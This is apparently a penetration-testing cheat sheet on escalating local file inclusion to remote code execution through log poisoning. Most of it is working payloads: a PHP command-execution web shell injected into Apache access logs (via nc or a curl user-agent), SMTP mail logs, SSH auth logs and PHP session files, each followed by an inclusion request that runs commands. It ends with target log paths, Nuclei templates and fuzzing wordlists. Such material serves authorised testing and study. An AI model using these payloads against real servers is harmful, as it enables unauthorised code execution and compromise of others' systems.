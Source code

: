 ```
```

#### Log Poisoning
-> apache
```bash
nc ip 80  
<?php system($_GET[‘cmd’]); ?>  
```  
or  
1-  
```bash
curl -s http://ip/index.php -A '<?php system($_GET[‘cmd’]); ?>'
```
2-  
http://ip/index.php?file=/var/log/apache2/access.log&cmd=id  
  
-> SMTP  
```bash
telnet ip 23
MAIL FROM: email@gmail.com
RCPT TO: <?php system($_GET[‘cmd’]); ?>  
http://ip/index.php?file=/var/mail/mail.log&cmd=id
```  
  
-> SSH  
```bash
ssh \'<?php system($_GET['cmd']);?>'@<IP>  
http://ip/index.php?file=/var/log/auth.log&cmd=id
```  

-> PHP session  
```
http://ip/index.php?file=<?php system($_GET["cmd"]);?>  
http://ip/index.php?file=/var/lib/php/sessions/sess_<your_session>&cmd=id
```
  
-> Other Paths  
```
/var/log/nginx/access.log  
/var/log/sshd.log  
/var/log/vsftpd.log  
/proc/self/fd/0-50  
```

### Template LFI and directory traversal - Nuclei
- https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yaml
- https://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

### Wordlists
-> burp-parameter-names.txt - Wordlist for parameter fuzzing  
- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt  
	
-> Wordlist LFI - Linux  
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
	